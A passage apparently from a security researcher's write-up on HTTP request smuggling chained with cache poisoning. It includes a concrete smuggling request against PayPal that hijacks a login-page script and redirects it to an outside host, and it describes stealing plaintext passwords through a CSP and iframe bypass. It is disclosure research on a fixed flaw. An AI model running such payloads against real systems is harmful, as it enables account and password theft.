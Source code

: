 Front-end perspective:

```
GET /static/site.js HTTP/1.1HTTP/1.1 200 OKYour payment history…
```

When a user's request for a static resource hits the poisoned socket, the response will contain their account details, and the cache will save these over the static resource. We can then retrieve the account details by loading /static/site.js from the cache.

This is effectively a new variant of the [Web Cache Deception](https://portswigger.net/web-security/web-cache-deception) attack. It's more powerful in two key ways - it doesn't require any user-interaction, and also doesn't require that the target site lets you play with extensions. The only catch is that the attacker can't be sure where the victim's response will land.

### PayPal

With request smuggling chained to cache poisoning I was able to persistently hijack numerous JavaScript files. Among those was one used on PayPal's login page: https://c.paypal.com/webstatic/r/fb/fb-all-prod.pp2.min.js.

```
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 Host: c.paypal.comContent-Length: 61 Transfer-Encoding: chunked0GET /webstatic HTTP/1.1Host: skeletonscribe.net?X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 Host: c.paypal.comConnection: closeHTTP/1.1 302 FoundLocation: http://skeletonscribe.net?, c.paypal.com/webstatic/ 
```

However, there was a problem - PayPal's login page used [Content Security Policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) with a script-src that killed my redirect.

![img](https://portswigger.net/cms/images/e1/5c/43ccf8d84ffc-article-paypal-01.svg)

This initially looked like a triumph of defence in depth. However, I noticed that the login page loads a sub-page on c.paypal.com in a dynamically generated iframe. This sub-page didn't use CSP, and also imported our poisoned JS file. This gave us full control over the iframe's contents, but we still couldn't read the user's PayPal password from the parent page thanks to the Same Origin Policy.

![img](https://portswigger.net/cms/images/1e/65/8e618cf695b8-article-paypal-02.svg)

My colleague Gareth Heyes then discovered a page at paypal.com/us/gifts that didn't use CSP, and also imported our poisoned JS file. By using our JS to redirect the c.paypal.com iframe to that URL (and triggering our JS import for the third time) we could finally access the parent and steal plaintext PayPal passwords from everyone who logged in using Safari or IE.

![img](https://portswigger.net/cms/images/13/0e/7fcaae230c37-article-paypal-03.svg)

PayPal speedily resolved this vulnerability by configuring Akamai to reject requests that contained a Transfer-Encoding: chunked header, and awarded a $18,900 bounty.

Weeks later, while inventing and testing some new desynchronization techniques, I decided to try using a line-wrapped header:

```
Transfer-Encoding: chunked
```
